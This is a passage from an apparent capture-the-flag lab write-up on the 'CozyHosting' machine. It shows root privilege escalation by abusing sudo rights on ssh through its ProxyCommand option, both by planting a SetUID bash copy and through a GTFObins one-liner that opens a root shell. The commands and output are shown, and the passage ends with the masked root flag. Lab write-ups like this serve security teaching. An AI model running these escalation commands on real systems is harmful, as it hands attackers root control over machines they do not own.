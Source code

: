 

    josh@cozyhosting:~$ sudo ssh -o ProxyCommand='touch /tmp/0xdf' x
    kex_exchange_identification: Connection closed by remote host
    Connection closed by UNKNOWN port 65535
    josh@cozyhosting:~$ ls -l /tmp/0xdf 
    -rw-r--r-- 1 root root 0 Feb 27 18:19 /tmp/0xdf



It works. I can use this to make a SetUID `bash`:



    josh@cozyhosting:~$ sudo ssh -o ProxyCommand='cp /bin/bash /tmp/0xdf' localhost
    kex_exchange_identification: Connection closed by remote host
    Connection closed by UNKNOWN port 65535
    josh@cozyhosting:~$ sudo ssh -o ProxyCommand='chmod 6777 /tmp/0xdf' localhost
    kex_exchange_identification: Connection closed by remote host
    Connection closed by UNKNOWN port 65535
    josh@cozyhosting:~$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1396520 Feb 27 18:20 /tmp/0xdf



Now running it (with `-p` to not drop privs) gives a root shell:



    josh@cozyhosting:~$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1003(josh) gid=1003(josh) euid=0(root) egid=0(root) groups=0(root),1003(josh)



GTFObins gives a shorter path, using redirection to get the shell
immediately from the `ssh` process:



    josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
    # id
    uid=0(root) gid=0(root) groups=0(root)



Either way, I can grab the flag:



    0xdf-5.1# cat /root/root.txt
    01ebd55a************************







